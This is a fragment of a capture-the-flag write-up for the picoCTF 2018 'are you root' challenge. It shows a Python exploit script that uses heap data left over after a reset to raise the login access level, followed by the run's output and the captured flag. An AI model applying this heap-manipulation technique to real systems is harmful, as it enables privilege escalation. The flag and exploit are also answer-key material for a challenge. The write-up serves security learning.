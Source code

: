 ```python
    return send_command("login " + name)

def set_auth(auth):
    return send_command("set-auth " + str(auth))

def get_flag():
    return send_command("get-flag")

def reset():
    log.info("Performing reset")
    return send_command("reset")

def quit():
    return send_command("quit")

login("a"*8 + p64(REQUESTED_ACCESS_LEVEL))
reset()
login("A")
s = show()
log.info("Login info: {}".format(s))
if "[{}]".format(REQUESTED_ACCESS_LEVEL) in s:
    log.success("Flag: {}".format(get_flag()))
```

The output:
```console
root@kali:/media/sf_CTFs/pico/are_you_root# python exploit.py
[+] Opening connection to 2018shell3.picoctf.com on port 29508: Done
[*] Logging in as aaaaaaaa\x05\x00\x00\x00\x00\x00\x00\x00 (61616161616161610500000000000000)
[*] Performing reset
[*] Logging in as A (41)
[*] Login info: Logged in as A [5]
[+] Flag: picoCTF{m3sS1nG_w1tH_tH3_h43p_a5e65af1}
[*] Closed connection to 2018shell3.picoctf.com port 29508
```

The flag: picoCTF{m3sS1nG_w1tH_tH3_h43p_a5e65af1}